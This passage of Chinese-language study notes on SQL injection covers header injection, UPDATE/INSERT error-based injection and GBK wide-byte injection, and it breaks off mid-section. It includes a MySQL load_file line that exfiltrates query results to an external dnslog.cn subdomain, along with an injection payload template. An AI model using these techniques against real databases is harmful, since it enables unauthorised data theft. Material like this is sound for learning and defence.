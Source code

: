 


## http头部注入

如果猜测到后端有SQL查询，而且会带入http请求头中的字段内容，那么该功能点可能存在SQL注入。
==头部注入通常用在后端记录日志入库的场景。==

## update、insert注入

update、insert注入通常使用报错注入，将注入语句构造在要修改或者插入的值或条件当中

update users set passwd='ccc'and payload # ' where username="xxx"



## dnslog带外注入的原理

在盲注场景下,也可以使用带外注入

**dnslog平台:**

> dnslog.cn 

1. dnslog带外注入的原理是什么?

   原理:在后端的数据库用户拥有读文件权限的情况下,将要查询的字符串拼接到dnslog域名中,然后发起对应网址的资源请求,就能把想要查询的结果外带到dnslog平台上方便查看

   

2. 如何进行dnslog带外注入?

   用concat函数构造dnslog的域名,用select load_file()

   ```mysql
   select load_file("\\\\test.xkpb07.dnslog.cn\\aa");#xkpb07.dnslog.cn是在dnslog生成的三级域名,可以使用concat将要查询的内容放到第四级域名,如果数据库用户有文件读写权限,则可以将查询内容带到dnslog.cn上面
   
```
   
   



## 宽字节注入:

如果后端将前端传回的特殊符号全部进行处理，在闭合符等特殊符号前添加了反斜杠\将特殊符号全部转义成了普通的符号，此时注入语句中添加的闭合符就会失效，导致注入语句被当成字符串处理。如果后端使用了GBK编码，这种情况就可以使用宽字节注入。

1. 宽字节注入的前提条件?

   后端使用了GBK编码的时候,存在着将ascii编码转换为GBK编码的过程,可以使用宽字节注入

2. 宽字节注入的原理:

   ```
   西欧字母符号,通过1个字节表示
   东亚字符则通过至少两个字节来表示。GBK编码就是用两个字节来表示中文区字符的一个编码标准。其编码范围：8140-FEFE（高位字节从81到FE，低位字节从40到FE）。
   ```

   编码转换存在着单字符被合并的情况：
